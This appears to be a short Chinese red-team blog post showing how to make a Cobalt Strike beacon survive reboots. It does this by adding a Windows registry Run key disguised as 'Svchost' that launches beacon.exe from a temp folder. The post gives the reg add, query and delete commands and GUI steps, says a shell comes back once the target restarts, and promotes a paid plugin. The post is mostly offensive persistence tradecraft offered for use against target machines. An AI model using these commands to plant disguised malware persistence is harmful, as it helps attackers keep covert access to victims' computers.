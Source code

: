 ![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640)

修改注册表实现自启动

  

命令行操作

添加注册表启动项

reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Svchost /t REG_SZ /d "C:\windows\temp\test\beacon.exe" /f 

查询注册表启动项

reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v Svchost

删除注册表启动项

reg delete HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v Svchost /f

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIjddeZBS3MbUGKbADcfh8OXew6A2y4ZbZRlYevuzJ02HrrJiatB8t6Pg/640)

  

图形化操作

打开注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIo8Y47Nmv99iafBXZc1LSInjY2q1vK4ceABiaOj4FARL8RusynVXdLsKg/640)

右键  新建 (N) ——> 字符串值 (S)

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI5Z8V9044PibGer39H4xUwq6Vsj6ytlZ7eiavHy5kIM058A6cnH0r3ULQ/640)

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIFhoFoXCbKzt3dPsYvV5ljL5ibue7GTeVtxWIeVOp5wAL4brwHlQmrqA/640)

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIJicU36BcZQtbMHJEUqHlaibl6VxZVznlbM4J1NM4PWGl42lQUMOtYRkg/640)

目标计算机重新启动后，我们即可以收到弹回来的 shell

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIJAE6t11B5n4zpup4s8LjM59rM9Sbb9Sib1LFbPOQ2IcMwXvKjj2BPLg/640)

本文中的相关功能我已经集成在 CS 插件中，链接：https://t.zsxq.com/7MnIAM7

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIxjnibNic9oymwuj1H8x1vtqfoLO5x3blnribkO4oPahPm6OoWeNjIbXuQ/640)

相关文章：[使用 reg 管理注册表](http://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247488290&idx=1&sn=a2c90007bd57eb782a9837af60c204c0&chksm=eaad931fddda1a092ab5ce7445a11c1c55e0f50c7eb45ef2398b1bc60b6d6663a30a9e6f91be&scene=21#wechat_redirect)

**END**